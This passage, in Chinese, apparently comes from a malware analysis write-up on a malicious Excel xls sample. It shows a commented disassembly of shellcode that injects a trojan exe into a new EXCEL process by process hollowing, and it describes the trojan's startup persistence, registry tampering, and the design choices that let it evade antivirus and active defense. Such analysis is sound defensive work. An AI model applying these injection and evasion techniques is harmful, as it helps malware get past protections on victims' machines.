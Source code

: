     047C07BD FFB6 7C020000 push dword ptr [esi+27C]
    047C07C3 FF96 C0020000 call dword ptr [esi+2C0] ; WriteProcessMemory把本进程读出来的木马exe内容写到新进程空间
    047C07C9 83C4 1C add esp, 1C
    047C07CC 85C0 test eax, eax
    047C07CE 74 47 je short 047C0817
    047C07D0 8B43 10 mov eax, dword ptr [ebx+10]
    047C07D3 0345 FC add eax, dword ptr [ebp-4]
    047C07D6 C785 0CFDFFFF 0>mov dword ptr [ebp-2F4], 10007
    047C07E0 8985 BCFDFFFF mov dword ptr [ebp-244], eax
    047C07E6 8D85 0CFDFFFF lea eax, dword ptr [ebp-2F4]
    047C07EC 50 push eax
    047C07ED FF75 F0 push dword ptr [ebp-10]
    047C07F0 6A 02 push 2
    047C07F2 FFB6 74020000 push dword ptr [esi+274]
    047C07F8 FF96 C0020000 call dword ptr [esi+2C0] ; SetContextThread恢复寄存器
    047C07FE FF75 F0 push dword ptr [ebp-10]
    047C0801 6A 01 push 1
    047C0803 FFB6 8C020000 push dword ptr [esi+28C]
    047C0809 FF96 C0020000 call dword ptr [esi+2C0] ; ResumeThread恢复进程运行
    这时候新的EXCEL进程就成功运行了，但实际执行的内容却是木马EXE。
    接下来shellcode调用TerminateProcess结束自身进程，就完成了全部工作。后面的事情就交给木马exe来完成。

## 木马exe ##

&emsp;&emsp;虽然这个木马并没有什么特殊之处，我也顺便分析了一下。
首先在C:\Windows\tasks\下释放了一个exe文件，以保证木马每次随系统启动。然后删除注册表项HKCU\Software\Microsoft\Office\12.0\Excel\Resiliency避免EXCEL重启时报出错误。最后用EXCEL打开那个已经修复过的xls文件。
可以看到无论是在关键目录释放exe还是删除关键注册表项，如果是普通exe的话都是会被主防报警的，而正是因为在shellcode中借了EXCEL的壳，所以这些敏感操作才得以绕过主防。而且因为没有释放第一个exe文件，可以减少很多被杀毒的启发引擎查杀的机会。因为释放在tasks下的exe只需要实现木马功能即可，不用考虑释放执行的问题，而释放执行的操作才是最容易被启发式杀毒查杀的。

## 总结 ##

&emsp;&emsp;这个xls样本虽然是个老漏洞，但是其shellcode还是很有创意，值得学习的。最大的亮点有两个：
一个是重写系统dll的内存，来间接执行API调用，以跳过回溯堆栈的主防拦截shellcode。
另一个是借EXCEL进程的壳来执行木马exe，以绕过主防对木马的拦截。